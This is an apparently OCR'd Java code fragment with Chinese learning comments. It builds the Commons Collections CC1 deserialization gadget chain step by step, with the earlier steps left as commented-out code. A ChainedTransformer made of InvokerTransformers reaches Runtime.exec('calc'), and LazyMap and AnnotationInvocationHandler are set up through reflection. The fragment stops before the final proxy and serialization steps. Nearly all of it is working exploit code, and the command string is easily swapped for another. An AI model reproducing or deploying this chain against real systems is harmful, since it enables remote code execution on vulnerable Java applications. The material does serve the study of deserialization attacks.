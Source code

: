```plain

//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r 不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

//        HashMap<Object,Object> map = new HashMap<>();
//        map.put("value","aaa");
//        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

//        for(Map.Entry entry:transformedmap.entrySet()){
//            entry.setValue(r);
//        }
//        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
//        annotationInvocationhdlConstructor.setAccessible(true);
//        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


//设置 chainedTransformer 在 Lazymap 中的值
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
```